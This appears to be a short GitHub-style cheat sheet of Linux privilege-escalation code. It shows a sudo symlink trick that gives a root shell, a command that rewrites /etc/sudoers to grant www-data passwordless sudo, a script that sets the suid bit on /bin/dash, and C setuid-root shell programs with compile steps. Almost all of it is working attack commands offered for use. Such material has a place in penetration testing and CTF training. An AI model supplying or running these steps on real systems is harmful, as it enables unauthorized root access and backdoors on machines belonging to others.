 # Linux Privilege Escalation Code


## Bash
* If you have access to an executable that is run with higher privileges, here is a quick shell option:

```sh
$ mv /something/something/file.sh{,.bak}        # mv the original .sh file to .bak
$ ln -s /bin/bash /something/something/file.sh  # create a syslink from /bin/bash to a new file
$ sudo /something/something/file.sh
[sudo] password for myuser:
$ id
uid=0(root) gid=0(root) groups=0(root)
```

* Add user to sudoers
```sh
$ echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

* Set `suid` flag on executable
```sh
#!/bin/bash
chmod u+s /bin/dash
```
Then as user, run the shell.

## C

* A a SETUID binary that accesses the /bin/sh binary. A SETUID binary is a binary that allows users to execute the binary with the permissions of the executables owner.

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
  - Compile:
  ```
  $ gcc -o /tmp/setuid /home/centos/setuid.c
  ```

* Another version of the above
```c
# cat privesc.c
int main(void) {
     setgid(0);
     setuid(0);
     system("/bin/sh");
}
```
